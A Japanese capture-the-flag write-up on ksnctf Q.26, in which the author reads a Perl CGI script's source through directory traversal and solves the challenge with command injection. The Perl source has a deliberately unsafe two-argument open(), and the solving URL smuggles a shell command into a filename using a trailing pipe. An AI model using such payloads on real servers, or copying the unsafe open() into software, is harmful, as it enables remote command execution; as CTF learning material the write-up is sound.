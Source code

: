 ```yaml
---
title: ksnctf Q.26 Sherlock Holmes 70pt
date: "2020-09-24"
draft: false
category: "CTF"
tags:
    - "new"
    - "ksnctf"
cover: "frog.png"
---
```


## 問題の概要

問題ページへのリンクが張られている。

問題ページでは、シャーロックホームズの「ボヘミアの醜聞」の原文が載っている。

プロジェクトグーテンベルクから持ってきたようだ。

## 色々調べる

なんかめんどくさそうだなと思いながら、とりあえず色々調べてみよう。

ぱっとみ普通の html っぽいが、ソースを見てみる。

特に変なところはないが、url をよく見ると index.pl となっている。

perl だ。CGI だな。

ディレクトリトラバーサルを試みると、index.pl のあるディレクトリのファイルが表示された。

すると、flag.txt がある。ほかには、「ボヘミアの醜聞」の素となると思われる txt がある。

url 的に、index.pl/{ファイル名へのパス}という形でそのファイルの中身が表示されているようだ。

というわけで、さっそく index.pl/flag.txt へアクセスしてみる。

![frog.png](frog.png)

まあそうだよね。（ﾁｯ）

ははぁソースコードをみろと、なるほど。

index.pl/index.pl にアクセスすると、ソースコードを見ることができた。

```perl
#!/usr/bin/perl
use CGI;

print <<'EOS';
Content-type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
<head>
<title>A SCANDAL IN BOHEMIA</title>
</head>
<body>
<h1>A SCANDAL IN BOHEMIA</h1>
<div>
<a href="/~q26/index.pl/a_scandal_in_bohemia_1.txt">A SCANDAL IN BOHEMIA I</a>&nbsp;
<a href="/~q26/index.pl/a_scandal_in_bohemia_2.txt">A SCANDAL IN BOHEMIA II</a>&nbsp;
<a href="/~q26/index.pl/a_scandal_in_bohemia_3.txt">A SCANDAL IN BOHEMIA III</a>&nbsp;
</div>
<hr>
<div>
EOS



# Can you crack me? :P
open(F,'cracked.txt');
my $t = <F>;
chomp($t);
if ($t eq 'h@ck3d!') {
print 'FLAG_****************<br><br>';
}
unlink('cracked.txt');
####



open(F,substr($ENV{'PATH_INFO'},1));

my $cgi = new CGI;
$cgi->charset('utf-8');
while(<F>) {
chomp;
s/FLAG_\w+/FLAG_****************/g;
print $cgi->escapeHTML($_)."<br>\n";
}

print <<'EOS';
</div>
<hr>
<address>
http://www.gutenberg.org/files/1661/1661-h/1661-h.htm
</address>
</body>
</html>
```

途中に明らかに怪しい箇所がある。

```perl
# Can you crack me? :P
open(F,'cracked.txt');
my $t = <F>;
chomp($t);
if ($t eq 'h@ck3d!') {
print 'FLAG_****************<br><br>';
}
unlink('cracked.txt');
####
```

うーむ、cracked.txt を開いてその中身が`h@ck3d!`だったら FLAG\_が表示されるのか。（雰囲気）

perl cgi の脆弱性を調べてみると、何やら open 関数に脆弱性があり、ファイル名をコマンドとして解釈し、実行できるらしい。
方法はファイル名の最後に"|"と入れるだけ。

そういうモードが存在し、モードが指定されていなければ、ファイル名から指定できるらしい。

というわけで、index.pl/echo%20"h@ck3d!"%20>%20cracked.txt%7C
(echo "h@ck3d!" > cracked.txt|)

にアクセスしてファイルを作成して終了だ。

# 感想

OS command injection というらしい

これも任意コマンドをリモートで実行可能だから、重大な脆弱性だが、対策もしやすい。

しかし、うっかりやってしまいそうで怖い。

けど perl で、しかも CGI 使う機会って全然なさそう
